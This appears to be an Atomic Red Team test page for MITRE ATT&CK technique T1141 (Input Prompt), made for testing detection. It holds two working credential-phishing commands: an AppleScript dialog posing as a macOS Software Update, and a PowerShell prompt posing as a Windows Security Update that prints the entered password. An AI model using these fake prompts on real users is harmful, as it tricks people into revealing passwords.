 # T1141 - Input Prompt
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1141)
<blockquote>When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1088)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various languages such as [AppleScript](https://attack.mitre.org/techniques/T1155)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: OSX Keydnap malware) and [PowerShell](https://attack.mitre.org/techniques/T1086)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015).</blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)


<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS





#### Attack Commands: Run with `sh`! 


```sh
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```






<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```






<br/>
